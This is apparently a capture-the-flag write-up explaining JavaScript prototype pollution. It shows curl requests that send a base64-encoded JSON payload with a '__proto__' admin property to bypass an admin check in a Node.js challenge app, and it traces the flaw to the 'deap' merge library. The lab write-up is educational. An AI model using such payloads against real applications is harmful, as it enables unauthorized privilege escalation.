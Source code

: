# JS Prototype Injection

To understand this vulnerability you must first read about the prototypical inheritance in JS [1].
To introduce this concept shortly, a prototype is a living (in the runtime) object, that our object is linked to (object.\_\_proto\_\_ attribute).
This attributes form a chain, as the prototypes have their own prototypes. This is called the prototype chain.

One thing to note is that, if you want to use a property of the object (let's say obj.a) then if 'a' is not defined directly
in the object, then the runtime will search the prototype chain and return the value from the first prototype, that has this property defined.

```js
var o = {}
o.a = "I'm here"

var t = Object.create(o)
t.a
-> "I'm here"
```

And having this in mind, we can do something like this

```js
var o = {}
var t = Object.create(o)
t.__proto__.a = "I'm here"
t.a
-> "I'm here"
o.a
-> "I'm here"
```

Moving to JS prototype poisoning, the vulnerability appeared on Port Swiggers list of top web hacks in 2018 [2].
It was discovered and then researched by Olivier Arteau [3]. Go on and read the paper for better description.
TL;DR we want to inject data into the prototype of the object, and from there we can achieve a lot of different things.
Worth to note, this mainly affects Node.js appliactions.

In this challenge we are given a website ("Forbidden snack") that asks us for our name and if we want to buy a flag.
Intercepting requests in the browser, we can observe one that's interesting:

```
> GET /flag/eyJ1c2VybmFtZSI6ImxvbDIifQ== HTTP/1.1
> Host: 106.120.184.13:3000
> User-Agent: curl/7.64.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 13
< ETag: W/"d-4N0Yh1uaE1dveMsz+j0BbASjbbo"
< Date: Wed, 22 May 2019 13:46:12 GMT
< Connection: keep-alive
< 
* Connection #0 to host 106.120.184.13 left intact
{"flag":"no"}
```

Observations:
* X-Powered-By: Express - appliaction is probably running on node.js (maybe it is vulnerable to js prototype poisoning?)
* GET /flag/eyJ1c2VybmFtZSI6ImxvbDIifQ== - this is base64 encoding of ```{"username":"lol2"}```

Also, the front end of the appliaction requires us to be an admin in order to get the flag.
Now, using this knowledge and curl we can query the app for flag:

```
$ curl -i http://localhost:3000/flag/$(echo -n '{"username":"lol2"}' | base64)
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 13
ETag: W/"d-4N0Yh1uaE1dveMsz+j0BbASjbbo"
Date: Wed, 22 May 2019 13:53:09 GMT
Connection: keep-alive

{"flag":"no"}
```

Now, what happens if we try to make ourself an admin:
```
$ curl -i http://localhost:3000/flag/$(echo -n '{"username":"lol2", "admin": true}' | base64)
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 17
ETag: W/"11-VTnVyZZ+o9b9kTysxmR3eGHBEC4"
Date: Wed, 22 May 2019 13:54:02 GMT
Connection: keep-alive

{"flag":"hacker"}
```

There is a check on the backend of the application, if we are supplying admin in the request.
So let's try and poison the prototype of the object, in order to make the resulting object 
have a declared property named admin.

```
curl -i http://localhost:3000/flag/$(echo -n '{"username":"lol2", "__proto__": {"admin": true}}' | base64)
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 21
ETag: W/"15-m+EOYnWFvqe8cHHLz9ndbEsyTQY"
Date: Wed, 22 May 2019 13:55:40 GMT
Connection: keep-alive

{"flag":"thisisflag"}
```

Our attack worked.

This is possible due to the fact, that backend uses vulnerable library named "deap" to make a copy of the object send by the user.

```js
function checkIfAdmin(user) {
    let userParsed = deap.merge({}, user)
    ...
```

Thats all folks.


References:
1. Inheritance and the prototype chain, MDN https://developer.mozilla.org/en-US/docs/Web/JavaScript/Inheritance_and_the_prototype_chain
2. James Kettle, Top 10 web hacking techniques of 2018, https://portswigger.net/blog/top-10-web-hacking-techniques-of-2018
3. Olivier Arteau, Prototype pollution attack, https://github.com/HoLyVieR/prototype-pollution-nsec18

